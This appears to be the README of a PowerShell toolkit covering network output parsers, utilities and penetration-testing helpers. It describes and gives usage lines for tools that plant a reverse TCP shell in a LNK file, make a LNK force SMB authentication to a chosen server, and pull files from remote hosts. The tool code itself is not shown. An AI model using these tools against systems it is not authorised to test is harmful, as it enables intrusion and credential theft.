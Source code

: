 # Network Parsers
Collection of tools for parsing output of basic network commands

## Import-Netstat
Parses saved Netstat output (supports any/all of -a, -n, -o) and returns an object.

```
Import-Netstat -Path C:\Path\To\File(s)
```

## Import-IPConfig
Parses text files containing output of ipconfig or ipconfig /all and returns an object.

```
Import-IPConfig -Path C:\Path\To\File(s)
```

# Penetration Testing Tools
Collection of simple tools to make life a little less manual while pentesting.
## New-LNKShell.ps1
Creates a reverse TCP shell launcher embedded in a LNK file.

```
New-LNKShell -ComputerName 192.168.1.1 -Port 4444 -Application calc.exe
```

## New-SMBLNK.ps1
Creates an LNK file that, when viewed, will cause a client to authenticate to the specified server.
```
.\New-SMBLNK.ps1 -ComputerName 192.168.1.1 -Share Files -Application calc.exe
```

## FindFiles.psm1
Module containing two functions, one for pulling a list of remote files, the other for downloading interesting ones.
```
PS C:\> Export-FileList -ComputerName FOO1 -Drive C -Directory Temp -OutputPath C:\Path\To\Output

PS C:\> Get-File.ps1 -TargetFiles targets.csv -OutPath C:\Path\To\Output
```

# Miscellaneous
## Remove-Files.ps1
Removes files older than n days. Defaults to C:\Users\<YOU>\Downloads and 30 days

```
Remove-Files -Path C:\Path\To\Files -MaxAge 60
```

## Test-Port.ps1
Checks for open port and returns $True if open.

```
Test-Port.ps1 -Protocol TCP -Port 3389 -Targets 192.168.1.10
```

## Get-Base.ps1
Encode text to a Base64 string and back again.

```
Get-Base -String 'Hello World!' >>> SGVsbG8gV29ybGQh
Get-Base -Base64 'SGVsbG8gV29ybGQh' >>> Hello World!
```

## Get-NetInfo.ps1
Uses WMI to remotely gather information about network interfaces on target computer(s).

```
PS C:\> Get-NetInfo -ComputerName COMPUTER01 -Credential dmz\administrator
```

## Get-WritablePath.ps1
A noisy, hacky way of testing for writable directories.

```
PS C:\> Get-WritablePath -Path C:\Path\To\Files
```

## New-ShareTree.ps1
Creates a folder hierarchy full of random files/folders.
```
PS C:\> Get-WritablePath -Path C:\Path\To\Files
```
